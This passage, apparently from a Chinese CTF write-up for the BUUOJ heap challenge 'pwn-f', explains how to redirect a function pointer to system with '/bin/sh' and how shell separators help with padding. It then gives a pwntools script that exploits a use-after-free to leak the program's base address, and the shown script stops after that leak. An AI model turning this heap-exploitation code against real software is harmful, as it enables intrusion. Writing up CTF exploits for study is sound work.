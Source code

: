 这步结束后会卡输入流，输入两行字符即可：

```python
p.sendline('skye')
p.sendline('skye')
```

再次释放 chunk0 并申请，这次将函数地址修改为 system 地址，/bin/sh 输入在开头。由于程序输入函数不能读入 \x00 ，所以用 ``||`` 分隔填充内容，原因如下：

| 分隔符 | 说明                                                         |
| ------ | ------------------------------------------------------------ |
| &&     | 第2条命令只有在第1条命令成功执行之后才执行                   |
| `||`   | 只有`||`前的命令执行不成功（产生了一个非0的退出码）时，才执行后面的命令。 |
| ；     | 当;号前的命令执行完， 不管是否执行成功，执行;后的命令        |

#### EXP

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : pwn-f.py
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
# p = process("./pwn-f")
p = remote("node3.buuoj.cn",29256)
elf = ELF("./pwn-f")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def add(size,content):
	p.recvuntil("3.quit\n")
	p.sendline("create string")
	p.recvuntil("size:")
	p.sendline(str(size))
	p.recvuntil("str:")
	p.send(content)
def delete(id):
	p.recvuntil("3.quit\n")
	p.sendline("delete string")
	p.recvuntil("id:")
	p.sendline(str(id))
	p.recvuntil("sure?:")
	p.sendline('yes')

# UAF
add(8,'a'*8)
add(8,'b'*8)
delete(1)
delete(0)

# overwrite free_func 2 puts
call_puts_addr = 0xd2d
payload = 'a'*0x18 + p64(call_puts_addr)[0]
add(len(payload),payload)

# leak libc
delete(1)
p.recvuntil('a'*0x18)
elf_base = u64(p.recv(6).ljust(8,'\x00'))-call_puts_addr
log.info("elf_base:"+hex(elf_base))
# printf_plt = elf_base + elf.plt['printf']
# log.info("printf_plt:"+hex(printf_plt))

```